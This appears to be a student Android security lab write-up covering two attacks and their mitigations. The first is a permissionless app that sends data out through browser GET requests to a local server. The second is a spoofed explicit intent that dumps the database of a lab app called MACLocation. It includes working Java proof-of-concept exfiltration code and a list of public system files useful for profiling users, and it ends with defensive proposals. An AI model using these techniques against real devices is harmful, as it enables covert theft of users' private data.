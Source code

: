 # 1 - No-permission apps

In this part, we will exfiltrate some data to a server, without using
the `Internet` permission.

First, we need to setup a web server. Here, it is a localhost server
running on port 3001, so its address is `10.0.2.2:3001` on the emulated
device.

When we want to exfiltrate the data, we just have to create an intent to
open our server webpage with GET parameters, like
`http://10.0.2.2:3001/?key1=secret1&key2=secret2`.

By default, without any permissions it seems like there are not many
ways to get informations about the user. However, using some public
Android APIs or Linux files, a lot of informations can be extracted. For
example, the list of all installed packages is public, and while this
seems harmless it can give hints about the user's sexuality (if Grindr
or other specific dating apps are installed), its health if some diabete
or weight loss apps are found, etc. Some informations can also be found
in Linux files, like the CPU model or the amount of RAM to get the
device model, or some network informations. Some of these files and
directories are `/sys/class/net/`, `/proc/net/tpc`, `/proc/net/arp`,
`/proc/cpuinfo`, `/proc/meminfo`, etc. These files are accessible by
anyone due to the nature of Android, being based on a Linux kernel.
Finally, commands like `ps` can expose running tasks.

On android and iOS, apps are sandboxed and heavily restricted, as
opposed to desktop apps. If an app wants to access a private resource
(camera, location, etc), it needs to be explicitely allowed to do so by
the OS and the user. The goal is to make these apps as secure and as
privacy-aware as possible. While on desktop all applications are
unrestricted and could access all user files with r/w permissions, on
android even a vulnerable app is limited in its action. it also hints on
illegitimate apps; for examle, the flashlight app shouldn't require
microphone access. The goal of these permissions is to add boundaries to
apps, which greatly reduce the risks to the user.

Permissions are defined in a special file, the Android manifest of the
app. This file will describe all meta-informations about the app, like
which activities are public, what resources the app should use for its
icon, and more important here what permissions are used. In the
following example, an app is requiring the internet permission. Some
permissions aren't necessarily granted though, like the microphone one.
While it needs to be declared, the user can still decide to disable it.

```xml
<uses-permission android:name="android.permission.INTERNET" />
```

However, here our application uses a simple trick to bypass this
permission system. It will open the web browser on a specific page, and
while it usually is quite innocent since the webpage cannot talk back to
the app, it is enough to leak informations using GET parameters. It
should be noted however that, first, the data accessible is only our own
data, which limits the damages possible, and that this method isn't very
discreet, as the user clearly sees its browser opening.

The code used is the following one to exfiltrate the data:

```java
// This will be our URL like http://10.0.2.2:3001/?key1=secret1&key2=secret2
StringBuilder evilRequest = new StringBuilder("/?");
for (Item item : mItemsData) {
	// Add each item to the exfiltration URL
	evilRequest
		.append(Uri.encode(item.getTitle()))
		.append("=")
		.append(Uri.encode(item.getInfo()))
		.append("&");
}
// Create the intent to open the browser
Intent intent = new Intent(
	Intent.ACTION_VIEW,
	Uri.parse(url + evilRequest)
);
if (intent.resolveActivity(getPackageManager()) != null) {
	// Start the intent if an an app is able to handle it
	startActivity(intent);
}
```

The database's content looks like, for example:

![Database content](./assets/database_content_p1.png)

# 2 - Malicious intents

In the MACLocation app, the `DatabaseActivity.onCreate` method will, as
its name suggests, create the app. It will look at the caller intent and
act differently depending on its action. Here, if the field
`"ITEM_ACTION"` is set to `"GET_ITEMS_ACTION"`, it will retrieve all
database content and send it back to the caller.

The problem is that if a third-party app opens this activity with the
right action, the activity won't check which app the intent is coming
from and will exfiltrate all its database to the external app through
the result intent.

The malicious intent code is the following one:

```java
// Activity intent
Intent i = new Intent(Intent.ACTION_MAIN);
// Explicitely set the component that will receive the intent
i.setComponent(new ComponentName(
	"lbs.lab.maclocation", // Target package
	"lbs.lab.maclocation.DatabaseActivity" // Target activity
));
// MIME data type, equal to `DatabaseActivity.class.getCanonicalName()`
//  Used to trick the DatabaseActivity condition
i.setType("lbs.lab.maclocation.DatabaseActivity");
// Action, here fetch all data, but could also be SET_ITEMS_ACTION to
//  override the database content
i.putExtra(ITEM_ACTION, GET_ITEMS_ACTION);
```

Once the data retrieved, we need to deserialize it by creating our own
implementation of `lbs.lab.maclocation.Item`, and then exfiltrate it
like we did previously in the first part. To find which class to
recreate, we need to look at the logs when trying to deserialize the
object. We get a `ClassNotFoundException` that will then hint us on
which class isn't found, by logging something like `the class
lbs.lab.maclocation.Item cannot be found`. We now know which class we
need to write.

There are currently a few checks in `DatabaseActivity`:
- The MIME data type should be set to
`"lbs.lab.maclocation.DatabaseActivity"`, which is easy to set
- The `"ITEM_ACTION"` field should be set to `"GET_ITEMS_ACTION"`, again
we could guess it using the source code or a decompiler
- The caller activity should be named `MainActivity`, easy to spoof

This last check is the one which should be changed in order to fix this
vulnerability. Instead of checking the value of `getShortClassName()` to
compare the activity names, it should use `getClassName()`, that will
differentiate `lbs.lab.maclocation.MainActivity` and
`lbs.lab.macintent.MainActivity`.

Moreover, in the Android manifest, `DatabaseActivity` is wrongly marked
as `exported`, which makes it accessible to any third-party app through
an intent.

# 3 - Protections and mitigations

There could be several ways to protect against these threats, on several
levels.

On a more general note though, explicit intents should be avoided and
should even maybe be completely discarded. Apps should pass through an
app chooser and not hardwire the target in the source code, which is
error prone and can lead to several attacks like we saw previously.

For both parts, a more general solution could be the transition to a
capability-based kernel, where the capability / key is an unforgeable
token of authority refering to a list of rights and permissions. These
confused deputy problems would then be no more, sicne if an app A calls
an app B, B would use A's token and then the operation would be refused
at the kernel level, while currently A uses B's identity to do some
actions.

## 3.1 - Against permission escape: part 1

First, the Android API could implement permissions per intent, not per
app. If an app A calls an app B, and B has the internet permission but
not A, A is still able to access internet through B. However, a defense
would be for the intent from A to B to require some kind of permission,
which would force A to declare the internet permission. This would still
be pretty challenging though, as we need to be sure which permissions
are used, otherwise if B suddently adds the camera permission it would
break A even though it doesn't use it.

The solution above could also be completed using a stacktrace of chained
events, to avoid the confused app B to send a third intent that will
look legitimate for the third (or same) app.

Some Linux files that currently are public shouldn't be anymore on
Android, and should be then restricted.

It could be argued that the list of all applications could also be set
to private at the Android API level, and the ability to execute system
commands like `ls` or `cat` through `Runtime.getRuntime().exec`
completely removed.

## 3.2 - Against data leak: part 2

A way to avoid data leak would be to somehow track the data from B to A.
If the data of B is leaked back to A without a kind of approval, then
the data would be made unusable by the system. This is still a rough
idea though, as this would probably lead to many challenge to face.

Maybe we could also rank the data importance, like the information flow
security lectures we had. A high (important) app would only be able to
share its data to other high apps, and low apps would not be able to
fetch this high data. Or, to continue with data tracking, low apps could
be allowed as long as there isn't an information flow from high data to
low data, ie the data use would be severely restricted. This is an
interesting research topic, although currently there are no official
support from Android. Still, some tools exist in "regular" Java, like
Jif, or in other languages (JSFlow, LIO, etc), so an official
implementation could come at some point with enough push from the
community. The best implementation would probably to implement this at
the kernel level, directly using memory mapping.

Related to this suggestion, critical informations related to banking or
health for example should probably be locked behind a password, such
that any legitimate intent would have this token in memory while
external explicit intents wouldn't be able to unlock the data. It goes
without saying that critical activities should also not be publicly
exposed in the Android manifest. This is technically a recommandation,
and cannot realistically be made mandatory by the platform, since it
would be pretty hard to differentiate critical and legit information
programmatically.

Intents could also use a kind of signature, to avoid spoofing its
origin. This is already something that can - and should - be done, but
the Android kernel should go even further. What we saw earlier is that
to deserialize the data fetched we needed to create our own
implementation of the data object. This shouldn't be allowed, and a
serialized object should only be deserializable by the implementation
in its own app, not by any third-party app, even if the implementation
is the same.

